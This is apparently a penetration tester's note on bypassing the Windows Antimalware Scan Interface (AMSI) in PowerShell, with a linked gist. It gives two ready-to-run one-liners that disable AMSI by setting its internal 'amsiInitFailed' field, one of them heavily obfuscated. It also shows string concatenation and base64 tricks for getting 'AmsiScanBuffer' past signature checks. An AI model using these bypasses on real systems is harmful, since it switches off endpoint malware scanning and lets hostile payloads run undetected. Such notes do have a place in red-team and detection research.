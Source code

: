 https://gist.github.com/D3Ext/bf57673644ba08e729f65892e0dae6c4

![[2._Powershell  Bypass#Execution bypass]]

AMSI test:
```
'AMSI Test Sample: 7e72c3cw-861b-4339-8740-0ac1484c1386'
```

```
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```

OR

```
SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```


AMSI typically flags the string AmsiScanBuffer, a common component of patching-based evasions, as malicious, but here you can see that string concatenation allows us to bypass detection

```
"Ams" + "iS" + "can" + "Buff" + "er"
```

`AmsiScanBuffer`

```
$b = [System.Convert]::FromBase64String("QW1zaVNjYW5CdWZmZXI=")
```

```
[System.Text.Encoding]::UTF8.GetString($b
```

`AmsiScanBuffer`

